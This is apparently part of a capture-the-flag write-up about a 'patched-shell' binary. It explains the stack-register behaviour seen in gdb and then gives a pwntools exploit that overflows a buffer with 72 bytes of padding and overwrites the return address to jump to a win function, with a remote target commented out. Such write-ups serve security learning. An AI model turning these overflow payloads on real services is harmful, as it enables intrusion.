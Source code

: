 </div>

Notice the different `RSP` on both images. One is filled with the same `RBP` as before, the second one is filled with the base call stack. The second one is worked because it will ignore the initial value of `RBP` that being pushed to the **shell** stack.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption><p>worked on gdb</p></figcaption></figure>

#### Payload

```python
from pwn import *

context(arch='i386', os='linux')

# Set up the connection to the local binary
binary_path = './patched-shell'  # Replace with the actual path to your binary
io = process(binary_path)

# Set up the connection to the remote service
# host = '34.123.15.202'
# port = 5000  # Replace with the actual port of the remote service
# io = remote(host, port)

# offset
offset = 72

# sec win addr
win_addr = 0x000000000040113a

# win addr on lea 
payload = b'A' * offset
payload += p64(win_addr)

io.sendline(payload)

io.interactive()

```
